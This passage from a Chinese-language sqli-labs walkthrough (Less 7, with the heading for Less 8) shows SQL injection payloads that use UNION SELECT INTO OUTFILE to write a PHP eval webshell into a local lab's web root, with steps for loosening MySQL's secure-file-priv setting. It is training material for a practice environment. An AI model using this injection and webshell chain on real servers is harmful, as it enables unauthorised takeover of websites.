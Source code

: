    ![07-1](images/sqli_labs/07-1.png)

   **注意：**这里要强调一下，一般在**SQL查询语句中**，**单双引号不能同时存在**。即数字型/字符型及单/双引号注入能在这三条语句返回的结果判断出来

2. **分析是否存在括号及个数**
   
   ```
   ?id=1' and 1=1 --+	//将查询语句后半段注释掉发现仍报错，说明有括号
   
   ?id=1')) and 1=1 --+	//依次增加括号个数，直到回显正常，这就找到了注入点
   ```
   
3. **确认列数，注入PHP一句话木马**

   ```
   ?id=1')) order by 3--+
   
   ?id=1')) union select 1,2,'<?php @eval($_POST["x"]);?>' into outfile "路径\\间隔"--+
   ```

   注意下这里的路径必须用 \\\，需要转义一下

   最后我这边环境的路径为

   ```
   ?id=1')) union select 1,2,'<?php @eval($_POST["x"]);?>' into outfile "D:\\Software\\phpstudy_pro\\WWW\\antlers\\Sqli_Edited_Version-master\\webshell.php""--+
   ```

   最后蚁剑连一下

**PS：**

> 这里有个坑，这个方法需要mysql数据库开启secure-file-priv写文件权限，否则不能写入文件。
>
> 
>
> 如果使用的时phpstudy，需要修改其自己的环境里的mysql配置文件。
>
> - 进入mysql安装目录，找到my.ini 修改里面的secure-file-priv参数
>
> - 如果发现没有secure_file_priv这个选项，直接再最后添加一个空的即可。
>
> - ```
>   secure-file-priv = ""
>   ```



### less 8

#### 类型：

基于布尔的盲注

#### 解题方法

盲注
